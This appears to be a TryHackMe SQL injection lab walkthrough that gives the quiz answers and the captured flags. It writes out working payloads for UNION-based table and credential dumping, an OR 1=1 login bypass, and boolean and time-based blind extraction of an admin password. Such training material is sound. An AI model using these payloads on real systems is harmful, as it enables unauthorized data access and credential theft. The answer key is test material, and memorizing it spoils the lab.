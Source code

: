 # THM - SQL Injection

<br>

## Task 1

### Task 1.1

> Structured Query Language

<br>

## Task 2

### Task 2.1

> DBMS

### Task 2.2

> table

<br>

## Task 3

### Task 3.1

> SELECT

### Task 3.2

> UNION

### Task 3.3

> INSERT

<br>

## Task 4

### Task 4.1

> ;

<br>

## Task 5

http://10.10.91.147/level1

https://website.thm/article?id=1

```sql
1 UNION SELECT 1
```

```sql
1 UNION SELECT 1,2
```

```sql
1 UNION SELECT 1,2,3
```

```sql
0 UNION SELECT 1,2,3
```

```sql
0 UNION SELECT 1,2,database()
```

```sql
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```

```sql
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```

### Task 5.1

```sql
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```

> THM{SQL_INJECTION_3840}

<br>

## Task 6

### Task 6.1

```sql
' OR 1=1;--
```

> THM{SQL_INJECTION_9581}

<br>

## Task 7

https://website.thm/checkuser?username=admin

https://website.thm/login

```sql
admin123' UNION SELECT 1;--
```

```sql
admin123' UNION SELECT 1,2,3;-- 
```

```sql
admin123' UNION SELECT 1,2,3 where database() like '%';--
```

```sql
admin123' UNION SELECT 1,2,3 where database() like 's%';--
```

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--
```

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name='users';--
```

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';
```

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';
```

```sql
admin123' UNION SELECT 1,2,3 from users where username like 'a%
```

```sql
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%
```

### Task 7.1

Username: admin
<br>
Password: 3845

> THM{SQL_INJECTION_1093}

<br>

## Task 8

https://website.thm/analytics?referrer=tryhackme.com

https://website.thm/login

```sql
admin123' UNION SELECT SLEEP(5);--
```

```sql
admin123' UNION SELECT SLEEP(5),2;--
```

```sql
referrer=admin123' UNION SELECT SLEEP(5),2 WHERE database() LIKE 's%';--
```

```sql
referrer=admin123' UNION SELECT SLEEP(5),2 WHERE database() LIKE 'sqli_four';--
```

```sql
referrer=admin123' UNION SELECT SLEEP(5),2 FROM information_schema.tables WHERE table_schema = 'sqli_four' AND table_name='users';--
```

```sql
referrer=admin123' UNION SELECT SLEEP(5),2 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_four' and TABLE_NAME='users' and COLUMN_NAME like 'username';
```

```sql
referrer=admin123' UNION SELECT SLEEP(5),2 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_four' and TABLE_NAME='users' and COLUMN_NAME like 'password';
```

```sql
referrer=admin123' UNION SELECT SLEEP(5),2 FROM users WHERE username LIKE 'a%';--
```

```sql
referrer=admin123' UNION SELECT SLEEP(5),2 FROM users WHERE username LIKE 'admin';--
```

```sql
referrer=admin123' UNION SELECT SLEEP(5),2 FROM users WHERE username LIKE 'admin' and password LIKE '3%';--
```

```sql
referrer=admin123' UNION SELECT SLEEP(3),2 FROM users WHERE username LIKE 'admin' and password LIKE '4%';--
```

```sql
referrer=admin123' UNION SELECT SLEEP(3),2 FROM users WHERE username LIKE 'admin' and password LIKE '49%';--
```

```sql
referrer=admin123' UNION SELECT SLEEP(3),2 FROM users WHERE username LIKE 'admin' and password LIKE '496%';--
```

```sql
referrer=admin123' UNION SELECT SLEEP(3),2 FROM users WHERE username LIKE 'admin' and password LIKE '4961';--
```

### Task 8.1

Username: admin
<br>
Password: 4961

> THM{SQL_INJECTION_MASTER}

<br>

## Task 9

### Task 9.1

> DNS

<br>

## Task 10

### Task 10.1

> Prepared Statements
